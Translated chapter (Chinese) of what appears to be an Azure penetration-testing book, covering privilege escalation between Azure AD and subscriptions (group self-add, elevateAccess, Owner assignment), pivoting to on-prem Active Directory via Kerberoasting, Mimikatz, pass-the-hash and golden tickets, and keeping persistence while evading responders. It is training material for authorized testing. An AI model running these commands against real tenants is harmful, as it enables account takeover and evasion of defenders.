## 利用 Owner 和特权 Azure AD 角色权限

在本书第一章中，我们区分了 Azure AD 角色和 Azure RBAC 角色。我们提到过，Azure AD 角色用于管理对 Azure AD 资源和操作的访问权限，例如用户帐户或组的创建，以及密码重置；而 Azure RBAC 角色用于管理对 Azure 资源的访问权限，例如订阅、存储帐户和 SQL 数据库。大多数情况下，这两项服务具有相互独立的作用域边界。通常，为 Azure AD 分配的角色不会授予管理 Azure 资源的访问权限，而为 Azure RBAC 分配的角色也不会授予管理 Azure AD 资源的访问权限。

从订阅 Owner 权限向上提升到根管理组、Azure AD 管理角色或本地部署目标，可能是一项困难的任务。同样地，从 Azure AD 横向移动到 Azure 订阅资源也可能比较棘手。在本章中，我们将重点介绍一些不同的技术，用于在环境中超出用户现有权限分配的范围进行横向移动。

为了防止横向移动，最佳实践是将两个平面（Azure AD 和 Azure 资源）分开。这意味着应使用不同的用户帐户分别对其进行管理。如果不遵循这一最佳实践，那么入侵一个能够访问 Azure AD 的身份，就可能被利用来横向移动到 Azure 资源，反之亦然。

话虽如此，即使 Azure AD 和 Azure 资源使用相互独立的用户帐户，攻击者仍有其他可利用的途径。我们将在接下来的章节中介绍其中一些选项。

### 路径 1 – 利用组成员身份

Azure AD 帐户可能默认无法访问 Azure 资源，但如果它拥有修改 Azure AD 中组成员身份的权限，我们就可以利用这一点，将自己的帐户添加到某个拥有 Azure 资源权限的组中。*图 7.2* 展示了这种攻击的工作方式：



*图 7.2 – Azure AD 与订阅之间的关系*

下面简要讨论具体步骤：

1. **User3** 起初无法访问 Azure 资源，但拥有修改 Azure AD 中组成员身份的权限。
2. **cloud-architects** 组被分配了 Azure 资源的 Owner 角色。
3. **User3** 将自己添加到 Azure AD 中的 **cloud-architects** 组，而该组恰好拥有 Azure 资源的权限。
4. 凭借新的组成员身份，**User3** 现在拥有了 Azure 资源的权限。

> **重要提示**
> 
> 尽管本章讨论的重点是 Azure AD 中的 Global Administrator 角色，但 Azure AD 中还有其他内置角色也可以用来执行此攻击，包括以下角色：**User Administrator、Groups Administrator 和 Directory Writers。**此外，任何拥有以下权限的 Azure AD 自定义角色也可能被利用：
> 
> `microsoft.directory/groups/members/update`。

这是一个非常简单的攻击，我们在*第 4 章“利用 Reader 权限”*的实践练习中也利用过类似的方法，只是略有不同。如果用户已经拥有订阅中的权限，那么识别订阅中的任何特权组会很容易；但如果我们的 Active Directory 用户没有任何订阅权限，该怎么办？一种方法是查看 Azure AD 登录日志。

Azure AD 登录日志会自动记录交互式和非交互式登录活动。从攻击角度来看，该日志包含大量信息，攻击者可以据此了解哪些用户能够访问每个 Azure AD 应用程序、哪些用户帐户或应用程序容易成为攻击目标，以及如何规避防御性配置等信息！

在本例中，我们可以通过门户登录，或使用 Azure PowerShell 查看日志，以确定哪些用户能够访问 Azure 资源。随后，我们可以将这些信息与用户的组成员身份关联起来。

要使用 Azure PowerShell 查看登录日志，我们首先需要安装 AzureAD 预览版 PowerShell 模块。在撰写本文时，此功能仅在该模块的预览版本中提供。一些预览功能最终可能不会进入正式发布版本，因此该功能将来*可能*不会正式提供。

请注意，该模块无法与 AzureAD 模块的**正式发布（GA）**版本并行安装，因此如果已安装 GA 版本，我们可能需要先将其删除。假设你一直在按照示例操作，那么在设置 PowerZure 时应该已经安装了 AzureADPreview。

如果尚未设置该模块，可以按照以下说明进行操作：

```powershell
#### 如果已安装 GA 版本，则将其删除
Uninstall-Module AzureAD

#### 安装 AzureAD 模块的预览版本。随后关闭并
#### 重新打开 PowerShell 控制台
Install-Module AzureADPreview

#### 验证模块的 GA 版本是否已安装
```


```powershell
Import-Module AzureADPreview
Get-Module AzureADPreview | select Name,Version
Name              Version
----              -------
AzureADPreview 2.0.2.138
```

要查看感兴趣事件的登录日志，我们可以使用 `Get-AzureADAuditSignInLogs` cmdlet，如下列命令所示（此命令要求使用原生的工作/学校 Azure AD 用户帐户，而不是 Microsoft 帐户）。以下命令将筛选指定时间范围内成功的 Azure 门户或 Azure PowerShell 登录日志（可以将日期修改为当前日期之前的日期，以获取过去 24 小时的结果）。这些命令的输出提供了有价值的信息，我们可以用来验证 Azure 管理工具的用户，这通常意味着他们对 Azure 资源具有一定程度的访问权限：

```powershell
#### First connect to Azure AD
Connect-AzureAD

#### Get successful Azure Portal sign-ins in the time range
#### (greater than the specified date)
Get-AzureADAuditSignInLogs -Filter "appDisplayName eq 'Azure Portal' and createdDateTime gt $((Get-Date).AddDays(-1).ToString('yyyy-MM-dd')) and status/errorCode eq 0"

#### Get successful Azure PowerShell sign-ins in the time range
#### (greater than the specified date)
Get-AzureADAuditSignInLogs -Filter "appDisplayName eq 'Microsoft Azure PowerShell' and createdDateTime gt $((Get-Date).AddDays(-1).ToString('yyyy-MM-dd')) and status/errorCode eq 0"
```

我们可以进一步筛选，以获得有助于显示用户帐户安全配置的属性。如果我们需要寻找绕过防御的方法，这些信息会很有用：

```powershell
#### Get interesting authentication properties for successful
#### Azure Portal sign-ins
Get-AzureADAuditSignInLogs -Filter "appDisplayName eq 'Azure Portal' and createdDateTime gt $((Get-Date).AddDays(-1).ToString('yyyy-MM-dd')) and status/errorCode eq 0" | Select-Object UserPrincipalName, MfaDetail, AppliedConditionalAccessPolicies
```

以下是此命令的示例输出：



图7.3 – 用于登录审计的 PowerShell 命令结果

以下 Azure AD 内置角色具有读取此信息所需的权限：**安全管理员**、**安全读取者**和**报告读取者**。此外，任何具有以下权限的自定义 Azure AD 角色也可以使用：

- `microsoft.directory/groups/allProperties/allTasks` – 授予读取和更新 Azure AD 中组属性的权限
- `microsoft.directory/signInReports/allProperties/read` – 授予读取登录报告的权限

还值得注意的是，如果您的渗透测试范围涵盖此内容，则有机会从 Azure AD 横向移动到其他可能使用 Azure AD 作为其身份提供者的云应用程序。您可以查看 Azure AD 中的**企业应用程序**，发现与 Azure AD 具有信任关系的其他应用程序。您可以使用此部分来查找已授权用于应用程序的用户及其所属的组。如果访问是通过组授予的，您可以将自己添加到组中以获取对这些云应用程序的权限。

### 路径2 – 重置用户密码

另一个可用于横向移动到其他 Azure 订阅的路径是重置对另一个 Azure 订阅具有权限的用户的密码，并以该用户身份登录。此路径不太受欢迎，因为它会影响用户的现有访问权限，并且更具侵入性。如果用户突然无法使用他们一直使用的密码登录其帐户，则很容易引发警报，并且审计日志会反映最近的密码更改事件。

> **重要说明**
>
> 微软提供了有关此功能在 Azure AD 中如何工作的详细文档。请参阅以下 URL 以获取更多信息：`https://docs.microsoft.com/en-us/azure/role-based-access-control/elevate-access-global-admin#how-does-elevated-access-work`。

现在我们了解了如何提升权限，让我们通过一个实际示例来演示。

#### 动手练习 – 为全局管理员/所有者利用场景做准备

本动手练习将为我们完成本章其余的练习做好准备。要跟进本章将介绍的场景，您需要在 Azure AD 租户中设置一个具有全局管理员权限的用户，并在 Azure 订阅中设置另一个具有所有者权限角色的用户。我们已经使用 PowerShell 脚本自动完成了此操作，您可以从 Azure Cloud Shell 运行该脚本。以下是我们将在本练习中完成的任务：

1. 打开 Web 浏览器并浏览到 Azure 门户（`https://portal.azure.com`）。使用 `azureadmin` 凭据登录。

2. 在 Azure 门户中，单击 Azure 门户右上角的 Cloud Shell 图标。选择 *PowerShell*：


*图7.7 – 单击图标打开 Cloud Shell*

3. 在 Cloud Shell 窗格中的 PowerShell 会话中，运行以下命令下载脚本，以创建具有所有者权限的用户帐户、具有全局管理员权限的第二个用户，并设置所需的易受攻击的工作负载：

```powershell
PS C:\> Invoke-WebRequest https://bit.ly/owner-scenarios
-O owner-scenarios.ps1
PS C:\> Get-ChildItem
```

##### 该脚本有什么作用？

该脚本在 Azure AD 中创建一个具有全局管理员权限的用户帐户，并在 Azure 订阅中创建另一个具有所有者权限的用户。参见 *图7.10*：



图7.10 – 全局管理员/所有者利用场景

5. 脚本完成后，您在本练习其余部分所需的关键信息将显示在输出部分。将信息复制到记事本文档中，以备后用。您需要从输出部分获取四个值：

**Azure全局管理员用户：** 这是 Azure AD 中具有全局管理员权限的管理员用户名。

**Azure全局管理员用户密码：** 这是全局管理员用户的密码。

**Azure所有者用户：** 这是对 Azure 资源具有所有者权限的管理员用户名。

**Azure所有者用户密码：** 这是 Azure 资源所有者用户的密码。

该信息可以在以下屏幕截图中看到：



图7.11 – 获取脚本输出

现在，您已成功创建了在本章后面的练习中将使用的资源。在下一个动手练习中，我们将逐步讲解如何利用“提升访问权限”选项，从 Azure AD 横向移动到 Azure 资源。

#### 动手练习 – 提升访问权限

以下是我们将在本练习中完成的任务：

- **任务1：** 验证当前用户访问权限。
- **任务2：** 使用 Azure CLI 提升访问权限。
- **任务3：** 验证对 Azure 资源的访问权限。

让我们逐步完成这些任务：

1. 在您的 Pentest VM 上打开 **PowerShell**。
2. 在 **PowerShell** 控制台中，键入 `bash` 切换到 **适用于 Linux 的 Windows 子系统**。
3. 使用以下命令切换到 root 用户。出现提示时，输入管理密码：

```
azureuser@PentestVM:~# sudo su -
```

4. 使用 Azure CLI 命令 `az login` 进行身份验证：

```
root@PentestVM:~# az login
```

以下是此操作的屏幕截图：



图7.12 – az login 结果

5. 出现提示时，输入您在本章第一个练习中从脚本输出中获取的 Azure 全局管理员凭据：



图7.13 – Azure 密码提示

您将收到有关无权访问订阅的输出消息。这是因为该帐户仅有权访问 Azure AD，而无法访问任何 Azure 订阅。


7. 运行以下命令，利用全局管理员角色修改 Azure 资源的权限：

   ```bash
   az rest --method post --url "/providers/Microsoft.Authorization/elevateAccess?api-version=2016-07-01"
   ```

   如果没有收到任何输出，则表示命令已成功完成。

8. 退出登录，然后使用全局管理员凭据重新登录，以确认你现在已拥有 Azure 订阅资源的权限：

   ```bash
   az logout
   ```

   ```bash
   az login
   ```

   以下是相关截图：

   

   *图 7.16 – 具有订阅访问权限的 AZ CLI 登录*

9. 使用以下命令，为全局管理员账户分配订阅所有者角色：

   ```bash
   userPrincipalName=$(az ad signed-in-user show --query userPrincipalName -o tsv)
   az role assignment create --role "Owner" --assignee $userPrincipalName
   ```

这些命令将成功执行，证明你已利用提升后的全局管理员角色修改 Azure 资源的权限！以下是命令的输出：

```
root@PentestVM:~# userPrincipalName=$(az ad signed-in-user show --query userPrincipalName -o tsv)
root@PentestVM:~# az role assignment create --role "Owner" --assignee $userPrincipalName
{
  "canDelegate": null,
  "condition": null,
  "conditionVersion": null,
  "description": null,
  "id": "/subscriptions/204cce89-.../providers/Microsoft.Authorization/roleAssignments/5ac7db39-887b-40c6-a743-e562f2120a6a",
  "name": "5ac7db39-887b-40c6-a743-e562f2120a6a",
}
```

图 7.17 – 所有者角色分配

现在，我们已经从 Azure AD 修改了对 Azure 订阅的权限。接下来，让我们研究相反的场景，以及可以用于实现这一目标的技术。

### 从订阅所有者提升到 Azure AD 角色

作为渗透测试的一部分，你可能还会关注如何从 Azure 订阅转向 Azure AD。此目标可能属于某个攻击链，其目的是在 Azure AD 中建立后门以实现持久化。我们将在*第 8 章，在 Azure 环境中实现持久化*中介绍持久化这一主题。以下是一些可以用于实现这一目标的技术。

#### 路径 1 – 利用高权限服务主体

与用户账户类似，服务主体和托管标识也可以被分配 Azure AD 角色。许多攻击者认为服务主体和托管标识更容易成为攻击目标，因为它们通常不受条件访问和 MFA 等安全策略的约束。

攻击者可以利用具有服务主体或托管标识权限的 Azure AD 账户的特权，从而访问具有安全权限的主体。这是一条可行的路径，但你可能很少遇到这种情况，尤其是在组织严格遵循按范围分离角色分配原则的情况下。

#### 路径 2 – 利用服务主体的 API 权限

Microsoft 标识平台支持服务主体的两种权限：委派权限和应用程序权限。委派权限用于交互式身份验证流程，此时会有已登录的用户。在这种场景下，用户需要在访问时同意该权限（或者管理员可以代表用户同意）。

应用程序权限由无需任何用户交互即可运行的应用使用，这意味着没有用户登录这些应用。管理员只需代表应用对授予的权限同意一次。服务主体被授予权限，以便在 Microsoft Graph 等 API 上执行敏感操作，这种情况并不少见。攻击者可以利用这些权限访问已授予该应用访问权限的 API。



图 7.18 – 服务主体应用权限

例如，某个应用可能没有在 Azure AD 中分配任何角色，但如果它在 Microsoft Graph 中拥有执行敏感操作的应用程序权限，则可以将其作为间接访问 Azure AD 的方式。这种攻击方式也正逐渐成为攻击者常用的网络钓鱼技术。攻击者可以使用 Azure AD 同意授权 URL（*图 7.19*），将合法的 Azure URL 发送给网络钓鱼受害者。此 URL 利用内置的 Azure AD 权限审批流程，允许用户批准外部应用程序。

由于在内部环境中进行权限提升存在许多潜在方式，因此我们将重点介绍一些通用概念，并利用这些概念从 Azure 转向本地系统。

### 识别与本地网络的连接

首先，我们将了解如何识别连接云环境与本地网络的网络连接。这些连接可以让我们转向其他网络，而这些网络可能有助于我们在整个 Active Directory 环境中实现权限提升。

> **重要说明**
>
> 由于此场景的实验环境需要你设置与另一个网络的连接，因此我们不会在动手实践中介绍这一内容。但我们将说明如何查找这些连接。

在 Azure 门户中，查找本地连接是一项简单的任务。只需导航到**连接**页面，即可看到可用连接列表。这些连接可能是**站点到站点 VPN**或**ExpressRoute**连接。

#### 站点到站点（IPsec）连接

站点到站点连接依赖传统网络硬件（VPN 集中器、路由器等），在 Azure 与另一个网络之间建立 VPN 隧道。许多组织会选择此选项，因为它允许组织与现有技术集成。站点到站点连接的主要区别之一在于，其流量会通过公共互联网传输，而不是通过私有骨干网络连接传输。

#### ExpressRoute 连接

对于希望从其网络到 Azure 建立更专用（且更私密）连接的组织而言，ExpressRoute 连接是首选方案。此类连接通常由与 Microsoft 建立合作关系的服务提供商为组织创建。

了解这些连接的工作原理基础知识固然有益，但我们真正关注的是如何利用这些连接攻击其他网络。由于会使用虚拟网关来创建这些连接，因此我们需要检查网关的设置，以确定哪些网络可以访问远程连接。

通常情况下，如果我们拥有订阅上的参与者（或所有者）角色，就应该能够访问虚拟网络中可访问该连接的虚拟机资源。在最坏的情况下，我们始终可以在适当的虚拟网络中创建新的虚拟机，或者将网络接口附加到现有虚拟机。

获得本地网络的访问权限以及一些域凭据后，我们需要寻找在域中提升权限的可用选项。接下来的章节将介绍一些常见的选项和工具。

### 识别域权限提升路径

由于我们假设已经提升到所有者角色，或者拥有可访问多个订阅的账户，因此我们将假设在此过程中某个阶段已经收集到了一些域凭据。如果没有，我们建议返回前面的章节，复习如何从虚拟机和 PaaS 服务中提取域凭据。

利用这些已获取的域凭据，我们需要使用工具来识别 Active Directory 域中的资源，并利用这些资源提升权限。在许多环境中，需要在多个系统之间进行多次跳转，才能获得域管理员权限。

例如，下面是一个与 Azure 资源集成的 Active Directory 域（`ACME.local`）中常见的域权限提升路径：

- 攻击者从 Active Directory 或 Azure 虚拟机中收集域凭据（密码猜测、网络协议攻击等）。
- 攻击者利用这些凭据，在 Kerberoasting 攻击过程中获取可破解格式的 Kerberos 票据。
- 票据被破解，暴露出关联服务账户（`ACME\SQLUser1`）的明文凭据。
- 该服务账户在 AD 服务器计算机组上拥有本地管理员权限。
- 该组中的一台服务器（`FileServer01`）上存在账户 `ACME\kfosaaen-DA` 的活动登录会话，该账户是域管理员。
- 攻击者使用 SQLUser1 服务账户凭据，以本地管理员身份登录 `FileServer01` 服务器，并使用 Mimikatz 从 LSASS 进程中转储域管理员凭据。


撰写本文时，这是一种可在 Active Directory 域中使用的常见提权路径。这是一条可通过收集一些基本域信息（服务主体、域组等）手动识别的路径，但也有工具可帮助自动化识别这些路径。我们将在下一节中介绍其中一些工具，以及有助于在系统之间进行横向移动的额外工具。

### 自动化识别提权路径

BloodHound 工具的创建是为了简化 Active Directory 提权路径的识别。该工具允许域用户收集有关域中活动主机和用户会话的关键信息，以帮助将权限串联成一个图。该图随后可以被解析以找到到达所需权限的最直接路径：



图 7.20 – BloodHound 图示例

使用我们之前的示例，攻击者可以收集域数据，并通过使用 BloodHound 轻松找到从 Kerberoasting 攻击到域管理员权限的路径。

> **BloodHound 信息**
> 
> **创建者：** Andrew Robbins (Twitter: @wald0)、Rohan Vazarkar (Twitter: @CptJesus) 和 Will Schroeder (Twitter: @harmj0y)
> 
> **开源或商业：** 开源项目；提供商业选项
> 
> **GitHub 仓库：** `https://github.com/BloodHoundAD/BloodHound`
> 
> **语言：** PowerShell, JavaScript

得益于工具的最新更新，BloodHound 还支持查找本章中提到的许多 Azure 攻击路径。绘制 Azure 角色和资源关系图的能力对于识别在 Azure 中横向移动和提权的方式非常有帮助。虽然我们不会介绍该工具的完整使用方法，但它是在攻击 Active Directory 时最强大的工具之一，强烈推荐用于 Active Directory 测试。

> **重要说明**
> 
> 由于为 BloodHound 收集 Azure 数据而搭建实验室需要订阅中进行一些专门的资源分配，我们选择不为此工具提供实验。如果你想查看它收集的一些数据，请随意运行之前章节中的任何构建脚本，运行 AzureHound 收集工具，然后将数据导入 BloodHound。

虽然这超出了本书的范围，但有大量工具可用于单独收集与 BloodHound 收集的类似信息。如果操作得当，这种分块收集域信息的方式在渗透测试期间可能比 BloodHound 收集方法更不明显，但它需要对数据进行更多手动解释（以及对攻击路径的具体了解）才能识别出 BloodHound 找到的相同路径。

### 用于沿提权路径进行横向移动的工具

有了在本地环境中进行横向移动的明确路径，我们需要一些工具来帮助我们自动化此过程，使工作更轻松。值得庆幸的是，许多常见的提权操作可以从非域加入的系统完成，无需自定义工具。然而，在评估期间保持低调的最佳方法之一是通过 *利用现有资源* 使用原生系统管理工具（RDP、PS Remoting 等）。

由于原生 Windows 工具没有对诸如凭据收集和进程迁移等功能的固有支持，可能需要额外的工具来完成我们的目标。由于这些工具中的每一个都可能有自己的专著，我们只在此简要介绍其中一些，并留给读者自行学习这些工具：

- Metasploit
- CrackMapExec
- Cobalt Strike
- Empire
- Red Team Toolkit
- Covenant

这些工具都可用于域中的横向移动和提权。虽然工具并不总是必需，但它们可以帮助简化一些工作。

虽然这始终会受到环境中可用路径的影响，但在提权期间在域环境中在系统之间进行横向移动时，我们通常会使用以下方法：

- 获取域或本地凭据。
- 使用凭据或漏洞利用获得对系统的本地管理员访问权限。
- 攻破系统上可用的凭据。
- 识别可用于横向移动的额外目标。
- 横向移动到额外目标，并重新开始循环。

一旦在上述过程中收集到域管理员凭据，我们就进入新阶段，在该阶段收集特权 Azure 用户的凭据并使用它们进入 Azure 租户。

接下来，我们将介绍在域内完成提权后该怎么做。

### 域提权和横向移动后的通用提示

域管理员权限不应成为内部网络渗透测试的终点。在域管理员处停止只表明你对域有完全控制权，但没有展示这些权限的潜在影响。在内部渗透测试中，攻击者可以利用这些特权访问敏感数据存储，并强调攻击者提权后可能造成的危险。

Azure 渗透测试同样适用。获得域管理员权限实际上应该只是我们作为特权用户重新进入 Azure AD 环境的立足点。由于 Azure AD 环境与主要 Active Directory 环境紧密相连，因此有许多选择可以控制 Active Directory 账户，从而使我们能够进入 Azure。

获得域管理员权限后的第一步应该是从域控制器收集域 NTLM 哈希。这将为我们带来以下机会：

- 破解收集到的哈希以获得明文凭据
- 使用密码哈希进行 **Pass-the-Hash (PtH)** 攻击
- 使用域 `krbtgt` 账户哈希通过黄金票据攻击在域中保持持久性

由于转储所有域哈希可能会产生一些噪音，你可能希望针对特定账户（krbtgt、域/全局管理员等）进行哈希转储。此外，负责你的域的人员可能不希望重置每个域密码，因此在转储域哈希时做出合理的选择。

为了演示的目的，假设我们已经收集了 Azure 租户中 Global Administrator 账户的所有域 NTLM 哈希。如果我们能够破解其中任何一个哈希，我们可能能够使用明文凭据以特权角色进入 Azure 租户。

你可能会认为所有这些特权账户都会受到 MFA 和条件访问策略的保护。这并不总是如此。虽然强制所有账户使用 MFA 变得越来越普遍，但作者经常遇到用户被授予特权 Azure AD 角色，但从未为该账户配置 MFA 的情况。你的实际情况可能有所不同，但尝试一下可能值得。

或者，我们可以使用收集到的域凭据（明文或哈希）用于特权用户，以访问 Azure 管理员使用的系统。如前所述，Azure 令牌可以存储在用户工作站的 `.Azure` 配置文件文件夹中。通过使用其中一个被攻破的特权账户访问工作站，我们可能能够冒充 Azure 管理员用户的令牌。我们将在下一章深入介绍此过程，作为在环境中获得持久性的方式。

最后，有了管理员权限，我们可能可以控制用于 Azure 环境的 MFA 系统。如果使用第三方（Okta、Duo 等）MFA 系统，特权域用户可能可以控制其他用户的令牌。通过破解 Global Administrator 的密码并为其授予新的 MFA 令牌（在你的设备上），你可能能够接管其 Azure 账户。


### 总结

在本章中，我们回顾了攻击者可能从订阅所有者角色提升到租户中特权 Azure AD 角色的多种方式。我们还回顾了攻击者如何利用 Azure AD 访问权限来获得租户内订阅的权利。虽然在 Azure 渗透测试中并不总是需要这样做，但在订阅和 Azure AD 之间切换可能是展示环境中权限提升全面影响的最佳方式之一。

在下一章（也是最后一章）中，我们将展示如何利用这种访问权限，在 Azure 租户的各个层级为自己创造持久化机会。从虚拟机到 Azure AD，我们将回顾在 Azure 租户中持久化访问的可用选项。

### 做好被发现的计划

在任何你想在环境中持久化的情况下，你都应该假设你的存在会被注意到，并且你的访问权限会被移除。你的初始访问向量应始终被视为*短期资源*，它们允许你设置额外的持久化选项。虽然你也许能够通过那些初始向量维持访问权限，但它们很可能是第一个被暴露的东西。

### 准备多条通道

通过为一个环境准备多种访问选项，你不仅为自己提供了恢复被移除访问权限的选项，还拥有多条通道，可以迷惑任何正在对该环境进行事件响应的人。通过用一个你愿意牺牲的通道制造更大的动静，可能更容易在一个账户或服务中隐藏你的某些活动。

让我们看一些例子：

- 使用 Azure AD 用户通过运行命令功能直接执行 VM 命令。这是一个相当明显的操作，很容易追踪到单个用户。
- 通过自动化帐户 Runbook，使用运行命令功能并以运行方式帐户间接执行 VM 命令。这会以运行方式帐户作为掩护，可能不太明显。

拥有这两种命令执行选项，你就有可能用租户中的其他有效操作来掩盖你的活动。这两种选项中的任何一种也可能是一个危险信号，可以在你完成其他操作时用来分散事件响应团队的注意力。

### 使用长期和短期通道

通过使用长期持久化通道来创建或恢复对短期通道的访问，你可以在需要时牺牲短期资源。长期持久化方法应具有较高权限（订阅所有者、AAD 租户权限等），并允许你创建新资源或为租户分配新权限。这些才是真正的持久化方法，能帮助你保持或恢复对租户的整体访问权限。长期通道也应谨慎使用，因为它们对持久化至关重要。使用得越少，产生的噪音就越少。

### 在多个层级拥有多个持久化选项

对于你创建的任何持久化通道，最好在每个层级都有多个短期和长期选项。这可以包括多个资源、用户、脚本、可执行文件以及你可能使用的任何其他工具。通过在多个层级为自己提供选项，如果访问权限丢失，你将能够在多个层级重新建立访问权限。这里的目标是保持访问的粘性，以便移除你访问权限的尝试是可逆的。

> **重要提示**
>
> 与任何优秀的渗透测试一样，文档记录是关键。你在订阅中添加的任何持久化选项（或重大状态更改）都需要在创建时记录下来。如果环境访问完全丢失，并且你无法清理你的持久化方法，你可能会遇到一个非常愤怒的环境所有者，他需要做一些清理工作。此外，测试的**参与规则（RoE）**应概述测试人员为提升权限、持久化或其他目的对环境进行任何更改的能力。

现在我们理解了在 Azure 环境中持久化的一般目标和方法，接下来看看我们在 Azure 订阅和管理组中持久化的选项。

### 在 Azure 订阅中持久化

